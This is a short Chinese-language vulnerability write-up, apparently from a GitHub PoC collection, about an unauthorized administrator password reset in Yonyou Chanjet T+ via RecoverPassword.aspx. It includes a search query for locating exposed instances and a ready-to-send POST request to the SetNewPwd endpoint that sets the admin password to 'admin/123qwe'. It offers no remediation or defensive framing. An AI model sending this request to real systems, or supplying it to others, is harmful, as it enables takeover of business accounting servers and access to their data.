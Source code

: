 # 

# 用友 畅捷通T+ RecoverPassword.aspx 管理员密码修改漏洞

## 漏洞描述

用友 畅捷通T+ RecoverPassword.aspx 存在未授权管理员密码修改漏洞，攻击者可以通过漏洞修改管理员账号密码登录后台

## 漏洞影响

```
用友 畅捷通T+
```

## 网络测绘

```
app="畅捷通-TPlus"
```

## 漏洞复现

登录页面

![image-20220909104559292](./images/202209091048224.png)

验证POC, 重置账号密码为 `admin/123qwe`

```
POST /tplus/ajaxpro/RecoverPassword,App_Web_recoverpassword.aspx.cdcab7d2.ashx?method=SetNewPwd

{"pwdNew":"46f94c8de14fb36680850768ff1b7f2a"}
```

![image-20220909104816391](./images/202209091048450.png)
